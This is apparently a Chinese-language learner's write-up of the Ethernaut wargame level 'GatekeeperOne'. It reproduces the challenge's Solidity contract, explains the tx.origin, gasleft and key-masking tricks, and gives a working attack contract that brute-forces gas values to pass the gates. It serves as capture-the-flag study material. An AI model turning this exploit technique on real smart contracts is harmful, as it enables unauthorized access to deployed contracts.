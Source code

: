 # 13-GateKeeper One

日期: 20/08/2024
难易: 困难
漏洞小结: 绕过require
简单明了: 需要很清楚了解cast以及gas的使用方法

# 问题描述

Make it past the gatekeeper and register as an entrant to pass this level.

### **Things that might help:**

- Remember what you've learned from the Telephone and Token levels.
- You can learn more about the special function `gasleft()`, in Solidity's documentation (see [Units and Global Variables](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) and [External Function Calls](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

# 攻击思路

- 这里的gate其实就是要modifier我们需要pass `gateOne`，`gateTwo`还有`gateThree`
- `gateOne`的话，直接写一个攻击合约，然后由我们的EOA账号去调用攻击合约去攻击
    - `msg.sender`是攻击合约的地址
    - `tx.origin`是我们调用者的EOA账号地址
    - 这样`gateOne`就Pass了
- 要克服`gateTwo`的话，需要让`gasleft`这个函数return的数值是8191的倍数
    - total gas = (8191 * 3) + i
- 要克服`gateThree`的话，把三个require翻译一下
    - 第三个require - 左边一二bytes是tx.origin的右边一二bytes
    - 第二个require - 左边一二三四bytes不能为0
    - 第一个require - 右边一二bytes需要一样，右边三四bytes需要时0
    - 知道`tx.origin`之后就可以构造这么一个key

# 攻击方式

```solidity
contract Attack {
    function attack(address _target) external{
        bytes8 gateKey = bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF;
        for(uint256 i=0; i<300; i++){
            uint256 totalGas = i + (8191 * 3);
            (bool result, ) = _target.call{gas: totalGas}(abi.encodeWithSignature("enter(bytes8)",gateKey));
            if(result){
                break;
            }
        }
    }
}
```

# Ethernuat总结

Well done! Next, try your hand with the second gatekeeper…

# 小白的思考

关于变量的修饰符的确是好好的学习了一下

找到一个说明很好的文章

https://medium.com/@tanner.dev/ethernaut-x-foundry-level-13-gatekeeper-one-答案解說-0be3dde22ba6

然后对于gateTwo，直接使用爆破的方式还是非常值得学习的

以及如果使用low levelcal的话，都不需要建立目标